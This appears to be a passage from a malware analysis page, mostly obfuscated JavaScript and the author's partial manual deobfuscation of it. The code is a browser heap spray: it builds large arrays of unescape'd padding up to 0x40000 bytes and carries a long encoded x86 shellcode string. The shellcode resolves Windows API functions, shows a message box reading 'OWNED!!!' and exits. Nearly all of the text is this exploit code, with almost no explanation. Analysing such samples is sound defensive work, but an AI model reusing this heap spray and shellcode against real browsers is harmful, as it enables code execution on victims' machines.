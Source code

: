 ```js
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");

bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;

Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);

while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;

FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

Due to the level of obfuscation, I tried to debofuscate it manually:

```js
var var1 = "";
var var2 = "";
var var3 = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");

var var4 = "";
for (i=128; i>=0; --i)
{
    var4 += unescape("%ub32f%u3791");
}

```